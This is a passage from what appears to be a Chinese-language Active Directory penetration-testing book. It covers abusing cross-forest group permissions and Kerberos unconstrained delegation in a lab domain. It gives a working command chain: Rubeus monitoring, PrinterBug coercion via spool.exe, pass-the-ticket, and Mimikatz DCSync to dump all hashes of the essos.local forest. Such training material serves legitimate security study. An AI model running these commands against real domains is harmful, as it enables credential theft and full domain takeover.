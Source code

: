 ![图 5.42 – 具有跨域和森林权限的用户和组](img/B18964_05_42.jpg)

图 5.42 – 具有跨域和森林权限的用户和组

在我们破坏了具有 **SPYS** 组成员身份的用户之后，我们可以在森林之间进行横向移动，并享受我们的新权限。

另一种破坏森林信任的方法是滥用**Kerberos 无约束委派**（**KUD**），在启用了 KUD 的本地机器和外部森林中的域控制器之间通过使用 PrinterBug 或 PetitPotam 强制认证。然而，只有在启用了 TGT 委派的情况下才可行，这一设置默认直到 2019 年 3 月才被禁用。在我们的案例中，我们通过 Rubeus 和 PrinterBug 帮助下复制了该攻击以强制认证：

```
Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1 /nowrap
spool.exe meereen.essos.local kingslanding.sevenkingdoms.local
Rubeus.exe ptt /ticket:"base64_ticket_from_capture"
Mimikatz.exe "lsadump::dcsync /all /csv /domain:essos.local"
```

结果，我们从 **essos** 森林中导出了所有哈希值：
